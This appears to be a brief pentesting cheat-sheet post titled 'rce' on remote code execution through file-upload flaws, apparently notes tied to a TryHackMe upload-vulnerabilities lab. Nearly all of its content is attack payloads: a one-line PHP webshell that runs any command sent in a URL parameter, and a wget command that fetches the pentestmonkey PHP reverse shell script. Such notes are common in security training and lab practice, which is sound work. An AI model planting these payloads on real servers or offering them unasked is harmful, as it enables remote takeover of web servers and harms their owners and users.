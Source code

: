 ```yaml
---
layout: post
title: "rce"
keywords: "remote code execution, file upload"
---
```

#### PHP Webshell
```
<?php echo system($_GET["cmd"]); ?>
```

#### PHP Reverse Shell
```
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

#### JS Response Editing & Magic Bytes
[https://tryhackme.com/room/uploadvulns](https://tryhackme.com/room/uploadvulns)